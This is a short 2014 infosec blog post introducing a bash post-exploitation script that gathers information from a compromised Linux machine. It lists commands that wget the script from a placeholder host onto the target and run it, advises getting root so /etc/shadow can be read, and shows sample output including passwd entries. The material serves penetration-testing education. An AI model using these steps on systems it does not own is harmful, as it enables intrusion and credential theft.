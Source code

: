 ```yaml
---
layout: post
title: Linux Post Exploitation
date: '2014-12-18T21:51:00.004-07:00'
author: Sanjiv Kawa
tags:
- Bash
- infosec
- Linux
- Script
- Linux Post Exploitation
- Post
- Exploitation
comments: true
---
```

Gathering useful information from Linux box after exploiting it can be a lengthily and tedious task.
To help automate some of this process I've created a post exploitation script in bash which will gather most of the useful information for you. I still strongly suggest conducting a thorough manual investigation.

For best results try to obtain root privileges before running the script as you'll need this to access files such as /etc/shadow

Download <a href="https://drive.google.com/file/d/0B9YAGU9c9zmKRmxSS1RGZnNVLXc/view?pli=1">here</a>
{% highlight css %}
cd /
wget http://your.box/linux_post.sh
chmod 755 linux_post.sh
./linux_post.sh > goodies.txt
{% endhighlight %}

Sample output
{% highlight css %}
 Files  
 [*] resolv.conf  
 nameserver 192.168.0.1  
 [*] motd  
 The programs included with the Kali GNU/Linux system are free software;  
 the exact distribution terms for each program are described in the  
 individual files in /usr/share/doc/*/copyright.  
 Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
 permitted by applicable law.  
 [*] issue  
 Kali GNU/Linux 1.0.9 \n \l  
 [*] passwd  
 root:x:0:0:root:/root:/bin/bash  
 daemon:x:1:1:daemon:/usr/sbin:/bin/sh  
 bin:x:2:2:bin:/bin:/bin/sh  
 sys:x:3:3:sys:/dev:/bin/sh  
{% endhighlight %}

Send me a message if you have any suggestions!
